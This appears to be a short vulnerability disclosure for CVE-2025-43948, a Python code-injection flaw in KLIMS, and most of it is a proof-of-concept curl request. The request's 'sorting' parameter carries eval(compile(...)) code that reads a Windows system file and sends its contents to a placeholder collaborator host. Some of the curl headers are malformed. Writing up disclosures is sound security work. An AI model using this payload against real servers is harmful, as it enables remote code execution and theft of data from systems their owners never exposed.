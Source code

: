 # CVE-2025-43948
Codemers GmbH KLIMS 1.6.DEV was found to be vulnerable to python code injection vulnerability. A user can provide python code as an input value for parameter such as sorting and qualifier which will get executed in the server side. 

# Affected Product & Version
Codemers GmbH KLIMS <= 1.6 Dev

# PoC

````
curl --path-as-is -i -s -k -X $'POST' \

-H $'Host: YOUR-INSTANCE-URL' -H $'Content-Length: 409' -H $'Authorization: Token -H
$'Accept-Language: en-US,en;q=0.9' -H $'Accept: application/json' -H $'Content-Type: application/
json' -H $'Client-Session: Token -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/
537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36' -H $'Origin: http:// YOUR-INSTANCEURL
' -H $'Referer: http:// YOUR-INSTANCE-URL ' -H $'Accept-Encoding: gzip, deflate, br' -H
$'Connection: keep-alive' \

--data-binary $'{\"type\":\"GenericEntity\",\"page\":1,\"pageSize\":10,\"qualifier\":\"\",
\"additionalQualifier\":null,\"sorting\":\"eval(compile(\'for x in range(1):\\\\n import httplib\\\\n txt=\\\"\
\\\\\\n with open(\\\C:/Windows/System32/drivers/etc/hosts\\\",\\\"r\\\") as file:\\\\n\\\\tfor line in file:\\
\\n\\\\t txt=txt+line\\\\n conn=httplib.HTTPConnection(\\\"YOUR/BURPCOLLAB_WEB_URL\\\")\\\\n
conn.request(\\\"GET\\\",\\\"/\\\"+txt)\',\'a\',\'single\'))\"}' \

$'http://YOUR-INSTANCE-URL/klims/rest/api/entities/filter'
````

# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.
